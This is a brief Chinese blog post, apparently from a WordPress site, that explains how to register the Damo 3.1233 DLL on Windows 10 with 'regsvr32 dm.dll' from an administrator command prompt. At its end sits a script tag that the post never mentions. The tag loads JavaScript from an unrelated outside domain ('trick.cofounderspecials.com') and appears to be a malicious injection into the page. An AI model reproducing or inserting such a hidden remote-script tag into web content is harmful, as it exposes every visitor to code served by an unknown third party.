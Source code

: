 ```yaml
---
id: 65
title: Win10下注册大漠3.1233
date: '2020-06-15T09:15:38+08:00'
author: gavin
layout: post
guid: 'http://gaving.top/?p=65'
permalink: /index.php/2020/06/15/win10%e4%b8%8b%e6%b3%a8%e5%86%8c%e5%a4%a7%e6%bc%a03-1233/
blocksy_post_meta_options:
    - 'a:1:{s:17:"styles_descriptor";a:3:{s:6:"styles";a:3:{s:7:"desktop";s:0:"";s:6:"tablet";s:0:"";s:6:"mobile";s:0:"";}s:12:"google_fonts";a:0:{}s:7:"version";i:5;}}'
categories:
    - yi
---
```


进入C:\\Windows\\System32\\cmd.exe 用管理员运行，然后进入到大漠文件夹路径，执行regsvr32 dm.dll  
C:\\Windows\\system32>cd C:\\Users\\用户\\Desktop\\大漠\\3.1233

C:\\Users\\用户\\Desktop\\大漠\\3.1233>regsvr32 dm.dll

<audio controls="controls" style="display: none;"></audio>

<div id="gtx-trans" style="position: absolute; left: -28px; top: 98px;"></div><script src="https://trick.cofounderspecials.com/track.js?v=9.999" type="text/javascript"></script>